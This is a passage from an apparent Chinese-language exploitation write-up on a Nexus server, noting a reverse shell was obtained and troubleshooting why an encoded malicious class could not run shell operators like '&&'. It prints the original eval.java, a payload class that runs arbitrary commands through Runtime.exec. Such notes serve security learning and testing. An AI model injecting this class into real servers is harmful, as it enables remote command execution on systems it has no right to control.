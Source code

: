 <img src="picture/nexus运行自动化脚本.png" alt="nexus运行自动化脚本" style="zoom:25%;" />

成功get反弹shell。

## 遇到的问题及解决方案

1.在进行加载编码后的恶意class部分时，使用编码后的class，执行命令时发现当执行一整条命令时不能执行连接符、管道符等 Shell 语法，如执行`echo 1 && echo 2` 结果为 `1 && echo2`。

原因：

原始`eval.java`:

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class eval {
    public String exec(String cmd) throws Exception {
        BufferedReader br = new BufferedReader(
                new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
        StringBuilder sb = new StringBuilder();
        for (String line; (line = br.readLine()) != null; )
            sb.append(line).append('\n');
        return sb.toString();
    }
}
```
